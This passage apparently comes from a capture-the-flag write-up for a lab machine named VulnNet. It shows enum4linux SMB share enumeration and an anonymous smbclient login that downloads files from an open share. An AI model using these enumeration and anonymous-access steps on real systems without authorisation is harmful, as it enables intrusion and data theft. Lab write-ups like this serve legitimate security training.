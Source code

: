   ```
  enum4linux -a 10.10.255.144

   =================================( Share Enumeration on 10.10.255.144 )=================================
  
  
          Sharename       Type      Comment
          ---------       ----      -------
          print$          Disk      Printer Drivers
          shares          Disk      VulnNet Business Shares
          IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
  Reconnecting with SMB1 for workgroup listing.
  
          Server               Comment
          ---------            -------
  
          Workgroup            Master
          ---------            -------
          WORKGROUP            
  
  
  [+] Attempting to map shares on 10.10.255.144
  
  //10.10.255.144/print$  Mapping: DENIED Listing: N/A Writing: N/A
  //10.10.255.144/shares  Mapping: OK Listing: OK Writing: N/A
  
  [E] Can't understand response:
  
  NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
  //10.10.255.144/IPC$    Mapping: N/A Listing: N/A Writing: N/A
  ```
  
- Now let's login and see what's there. Download all the files you find. Press Enter when prompted for password.

  ```
  smbclient //10.10.255.144/shares
  
  smb: \> cd temp
  smb: \temp\> ls
    .                                   D        0  Sat Feb  6 11:45:10 2021
    ..                                  D        0  Tue Feb  2 09:20:09 2021
    services.txt                        N       38  Sat Feb  6 11:45:09 2021
  
  smb: \temp\> mget services.txt
  Get file services.txt? y
  getting file \temp\services.txt of size 38 as services.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
  
  smb: \> cd data
  smb: \data\> ls
    .                                   D        0  Tue Feb  2 09:27:33 2021
    ..                                  D        0  Tue Feb  2 09:20:09 2021
    data.txt                            N       48  Tue Feb  2 09:21:18 2021
    business-req.txt                    N      190  Tue Feb  2 09:27:33 2021
  
                  11309648 blocks of size 1024. 3278536 blocks available
  smb: \data\> mget data.txt
  Get file data.txt? y
  getting file \data\data.txt of size 48 as data.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
  smb: \data\> mget business-req.txt 
  Get file business-req.txt? y
  ```